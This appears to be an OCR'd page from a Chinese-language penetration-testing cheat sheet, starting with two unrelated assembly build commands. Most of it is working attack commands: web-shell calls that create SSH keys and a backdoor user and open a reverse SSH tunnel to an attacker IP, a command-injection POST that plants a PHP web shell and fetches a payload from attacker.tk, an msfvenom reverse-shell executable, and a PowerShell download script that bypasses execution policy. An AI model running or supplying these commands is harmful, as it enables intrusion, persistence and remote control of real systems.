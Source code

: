 $ nasm -f elf64 simple.asm -o simple.o
$ ld simple.o -o simple
使用非交互 Shell 打入内网
# 生成 shell 使用的 ssh 密钥
$ wget -O - -q "http://domain.tk/sh.php?cmd=whoami"
$ wget -O - -q "http://domain.tk/sh.php?cmd=ssh-keygen -f /tmp/id_rsa -N /"/" "
$ wget -O - -q "http://domain.tk/sh.php?cmd=cat /tmp/id_rsa"

# 增加用户 tempuser 
$ useradd -m tempuser
$ mkdir /home/tempuser/.ssh && chmod 700 /home/tempuser/.ssh
$ wget -O - -q "http://domain.tk/sh.php?cmd=cat /tmp/id_rsa" > /home/tempuser/.ssh/authorized_keys
$ chmod 700 /home/tempuser/.ssh/authorized_keys
$ chown -R tempuser:tempuser /home/tempuser/.ssh

# 反弹 ssh shell
$ wget -O - -q "http://domain.tk/sh.php?cmd=ssh -i /tmp/id_rsa -o StrictHostKeyChecking=no -R 127.0.0.1:8080:192.168.20.13:8080 -N -f tempuser@<attacker_ip>"
利用 POST 远程命令执行获取 Shell
attacker:~$ curl -i -s -k  -X 'POST' --data-binary $'IP=%3Bwhoami&submit=submit' 'http://victum.tk/command.php'

attacker:~$ curl -i -s -k  -X 'POST' --data-binary $'IP=%3Becho+%27%3C%3Fphp+system%28%24_GET%5B%22cmd%22%5D%29%3B+%3F%3E%27+%3E+..%2Fshell.php&submit=submit' 'http://victum.tk/command.php'

attacker:~$ curl http://victum.tk/shell.php?cmd=id

# 在服务器上下载 shell (phpshell.php)

http://victum.tk/shell.php?cmd=php%20-r%20%27file_put_contents%28%22phpshell.php%22,%20fopen%28%22http://attacker.tk/phpshell.txt%22,%20%27r%27%29%29;%27

# 运行 nc 并执行 phpshell.php
attacker:~$ nc -nvlp 1337
以管理员身份在 Win7 上反弹具有系统权限的 Shell
msfvenom –p windows/shell_reverse_tcp LHOST=192.168.56.102 –f exe > danger.exe

# 显示账户配置
net user <login>

# Kali 上下载 psexec

https://technet.microsoft.com/en-us/sysinternals/bb897553.aspx

# 使用 powershell 脚本上传 psexec.exe 到目标机器
echo $client = New-Object System.Net.WebClient > script.ps1
echo $targetlocation = "http://192.168.56.102/PsExec.exe" >> script.ps1
echo $client.DownloadFile($targetlocation,"psexec.exe") >> script.ps1
powershell.exe -ExecutionPolicy Bypass -NonInteractive -File script.ps1
